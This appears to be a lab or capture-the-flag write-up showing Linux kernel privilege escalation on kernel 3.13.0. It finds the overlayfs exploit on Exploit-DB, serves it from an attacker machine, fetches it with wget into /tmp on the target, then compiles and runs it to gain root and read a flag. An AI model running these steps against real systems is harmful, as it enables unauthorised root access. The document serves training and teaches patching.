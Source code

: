# Kernel Exploits

**Step 1: SSH Login to the Target Machine**

First, SSH into the target machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2: Check the Kernel Version**

Since we already know this is a kernel privilege escalation exploit, let's check the kernel version running on our target machine using the following command:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Search for Exploits**

Now that we have the kernel version, we can search in well-known exploit databases, such as [Exploit Database](https://www.exploit-db.com/).

Searching for `Linux 3.13.0` yields the following results:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Exploit Found**: I found an exploit for the Linux Kernel versions `3.13.0` to `< 3.19` (specifically for Ubuntu 12.04, 14.04, 14.10, and 15.04) related to 'overlayfs' Local Privilege Escalation.

**Step 4: Review the Exploit Details**

When we open this exploit, we can see the details and some instructions on how to use it.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5: Download the Exploit**

To make this exploit work, we need to download the raw content to the attack machine and then transfer it to the vulnerable machine. Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

**Step 6: Rename the File and Start the HTTP Server**

Next, rename the downloaded file to `ofs.c`, and start a simple HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

**Step 7: Download the Exploit on the Vulnerable Machine**

On the vulnerable machine, we must choose the `/tmp` directory for the download; otherwise, we will encounter a "Permission denied" message. Use the following command:

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

**Step 8: Compile and Run the Exploit**

Now, navigate to the `/tmp` directory and follow the instructions presented in the exploit. Compile the file and then run it:

```bash
gcc ofs.c -o ofs
./ofs
```

**Step 9: Verify Privilege Escalation**

After running the exploit, we can verify our privileges. Running the `id` command again shows that we are now 'root'. We can also use the `whoami` command to confirm this:

```bash
id
whoami
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 10: Access the Flag**

To retrieve the flag, navigate to the `/home/matt` directory and use `cat` to view the contents of the file:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had tried to use `cat flag1.txt` before the exploit, we would have received a "Permission denied" message.

With this write-up, we demonstrated the impact of having an outdated system. Having access to a user's credentials allowed us to leverage that privilege to gain access to the root account. This exercise highlights the importance of keeping systems updated and patched against known vulnerabilities, as well as the potential risks associated with running outdated software.
